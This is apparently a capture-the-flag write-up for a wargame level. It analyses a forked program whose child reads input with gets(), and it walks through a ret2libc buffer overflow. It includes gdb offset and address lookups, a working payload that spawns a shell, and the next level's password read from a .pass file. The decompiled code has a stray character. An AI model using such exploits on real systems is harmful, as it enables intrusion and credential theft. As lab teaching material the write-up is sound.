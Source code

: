 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  int wait_status;
  int i;
  int j;
  int k;
  char buffer[128];
  __pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  k = 0;
  wait_status = 0;
  if ( pid )
  {
    do
    {
      wait(&wait_status);
      i = wait_status;
      if ( (wait_status & 0x7F) == 0 || (j = wait_status, (char)((wait_status & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");w
        return 0;
      }
      k = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( k != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
}
```

### Explanation
This program creates a child process using `fork()`.
The parent process monitores the child process and prevents it to use `execve()` using `ptrace(PTRACE_PEEKUSER)`.
The child process uses `get()` to fill the `buffer` without checking its size.
The vulnerability is found in the child process where `get()` fills `buffer` without checking the number of characters `get()` can accept.
This will enable us to make a buffer overflow and perform a `ret2libc` attack.
This attack consists in overriding the copy `eip` copy with the address of the function`system()` and pass the `/bin/sh` string as parameter in order to open a shell terminal.

First we are going to use gdb command:

```bash
(gdb) set follow-fork-mode child
```
to follow every events happening in the child process instead of the parent process.

Now we need to find the offset to override `eip` copy, we set a breakpoint just behind `get()` and look for the padding to reach `eip` copy.

```bash
(gdb) b *0x08048763
(gdb) r < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
Starting program: /home/users/level04/level04 < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
[New process 1801]
Give me some shellcode, k
[Switching to process 1801]
child is exiting...
Breakpoint 4, 0x08048763 in main ()
(gdb) x/4xw $ebp
0xffffd718:    0x41414141    0x42424242    0x42424242    0x42424242
```

Then we find the address of both functions `system()`, `exit()` and the string `/bin/sh` to perform the attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e2c000, 0xf7ffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Step 2: Exploiting the Binary

```bash
(python -c 'print ("A" * 156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]';cat) | ./level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```